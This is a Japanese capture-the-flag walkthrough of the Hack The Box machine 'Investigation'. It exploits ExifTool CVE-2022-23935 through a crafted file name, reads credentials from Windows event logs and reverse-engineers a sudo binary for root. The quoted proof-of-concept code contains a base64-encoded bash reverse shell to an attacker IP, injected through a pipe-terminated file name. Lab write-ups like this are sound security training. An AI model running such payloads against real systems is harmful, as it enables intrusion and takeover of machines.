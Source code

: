 ## Investigation

nmap の結果がこちら。  
![](images/investigation/1.png)

`http://eforenzics.htb`にリダイレクトされるが、IPとドメイン名を紐づけていないので、  
`/etc/hosts`に追加する。  

ブラウザから`http://eforenzics.htb`にアクセス。  
![](images/investigation/2.png)

『Get access to out FREE image forensics service.』に飛んでみる。  
![](images/investigation/3.png)

画像をアップロードできるみたいなので、ネコの画像をアップロードしてみる。  
![](images/investigation/4.png)

裏で何か処理が施されリンクを押せるようになる。  
『here』からアクセスしてみる。  

![](images/investigation/5.png)

この出力形式は何度も目にしてきた。ExifToolの処理結果だ。  
ExifToolのVersionを見てみると、`12.37`とある。(私のExifToolより最新だ...)

ExifTool v12.37の既知の欠陥を調べると、`CVE-2022-23935`が見つかる。  
参考(https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

この欠陥は、ExifTool Version < 12.38 に存在し細工したファイル名をExifToolに通すとコマンドインジェクションが発生するみたい。  
具体的には、パイプ文字(|)で終わるファイル名だとパイプとして扱われOSコマンドを実行される。  

CVE-2022-23935の欠陥を利用するコードをネットから持ってきて使う。  
念の為、ソースコードも読む。  
参考(https://github.com/0xFTW/CVE-2022-23935)

```
cmd = bytes(f'/bin/bash -i >& /dev/tcp/{self.ip}/{self.port} 0>&1','UTF-8')
encodedName = base64.b64encode(cmd) 
image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="
imageName = f"echo {encodedName.decode()} | base64 -d | bash |"
with open(imageName, "wb") as img:
    img.write(base64.decodebytes(image))
```
bashのpayloadをエスケープ対策にbase64でencodeしたのをファイル名として出力している。  
これで、今回の欠陥を利用できる。  

このプログラムはファイルを出力すると同時に指定したポートで待ち受けてくれる親切設計  
![](images/investigation/6.png)

細工したファイル名のファイルをアップロードし、ExifToolで解析させリバースシェルを獲得する。  

探索していくと、今回の問題名「investigation」と同じディレクトリが見つかる。  
![](images/investigation/7.png)

`'Windows Event Logs for Analysis.msg'`というファイルが見つかる。  
![](images/investigation/8.png)  

ダウンロードし、調べる。  

Outlook から作成されたファイルみたいなので、開く方法を調べる。  
`msgconvert`というツールで開けるらしい。  
参考(https://freeelectron.ro/opening-msg-outlook-files-in-ubuntu-or-linux-mint/)  
![](images/investigation/9.png)


開いてみる。   
![](images/investigation/10.png)

```
Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom
```

というメッセージとともに、zipの添付ファイルがあるのでダウンロードして調べる。  

zipファイルを解凍すると、中から`security.evtx`というのが出てくる。  
このファイルはイベントファイルで、`evtxexport`コマンドを使って読める形式に変換する。  
参考(https://softwarerecs.stackexchange.com/questions/17590/how-to-view-evtx-files-on-linux-windows-event-log)

資格情報がないか調べると、認証パッケージにパスワードが保存されていた。  
![](images/investigation/11.png)

この資格情報を使用し、リバースシェルを獲得した際に確認した`smorton`ユーザーでログインをする。  

![](images/investigation/12.png)

HTBの権限昇格問題の定番`sudo -l`を実行。  
![](images/investigation/13.png)

`/use/bin/binary`を実行するも、知らないコマンドであった。  
このバイナリファイルをダウンロードし解析を行う。  

ghidraに通した結果がこちら。  

```
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    // WARNING: Subroutine does not return
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

このプログラムは引数を受け取り、引数の数が3であるかどうかをチェックする。  
(最初の引数はプログラム自体を渡している)  
そうでなければ、『Exiting...』と表示し、終了。  

次にroot権限でなければ終了、第2引数の文字列が"lDnxUysaQn"であるかのチェック処理がある。  

全ての条件を通った次に、第1引数に指定した対象へ`curl`を行い、ファイルを第2引数の`lDnxUysaQn`で保存する。  
そして、perlコマンドの引数に渡して実行している。  

つまり、perlで書いたリバースシェルコードをダウンロードさせて実行させれば、root権限を獲得できる。  

終了。
